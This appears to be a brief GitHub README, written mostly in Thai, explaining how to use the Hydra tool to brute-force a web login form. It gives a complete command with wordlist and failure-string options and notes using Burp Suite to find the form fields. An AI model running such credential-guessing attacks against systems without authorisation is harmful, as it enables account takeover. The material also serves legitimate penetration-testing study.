 # HAILHYDRA
# how to hydra  </br>
$ hydra -L username.txt -p aaa 192.168.x.x -V http-form-post "/PATH/login:username=^USER^&password=^PASS^:Invalid username" </br>

--username </br>
-l ชื่อหนึ่งชื่อ </br>
-L wordlist </br>

--password </br>
-p รหัสหนึ่งรหัส </br>
-P wordlist </br>

-V โชว์ รหัส พาส ระหว่างเดา </br>

path:parameters:F </br>
ในส่วนนี้ใช้ burb suit ดูได้ </br>
"/PATH/login.php     :   username=^USER^&password=^PASS^    :      F=Invalid username" </br>

username, password มาจากเว็บ </br>

^USER^ --> username ที่ต้องการให้เดา </br>
^PASS^ --> password ที่ต้องการให้เดา
https://drive.google.com/file/d/1qmMYM6bgSJICWs8gDsVX72YAR-gYLfFG/view?usp=sharing
